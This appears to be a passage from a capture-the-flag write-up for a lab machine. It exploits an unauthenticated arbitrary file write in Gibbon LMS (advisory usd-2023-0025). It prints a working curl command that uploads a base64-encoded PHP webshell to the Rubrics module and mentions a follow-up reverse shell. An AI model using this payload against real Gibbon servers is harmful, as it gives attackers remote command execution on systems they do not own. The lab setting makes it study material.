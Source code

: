 By searching `gibbon edu Arbitrary file writer` from google, we can find 
`usd-2023-0025 | Arbitrary File Write`
`https://herolab.usd.de/security-advisories/usd-2023-0025/`

From the poc, we get a import information: The Rubrics module has a file rubrics_visualise_saveAjax.php (source )which can be accessed without being authenticated.
Then we firstly make a webshell of php, then follow the poc upload this webshell
```
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" -H "Host: frizzdc.frizz.htb" --data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" --data-urlencode "path=shell.php" --data-urlencode "gibbonPersonID=0000000001"
```
![](images/Pasted%20image%2020250318164800.png)
Then we can use `https://www.revshells.com/` to get the reverse shell here.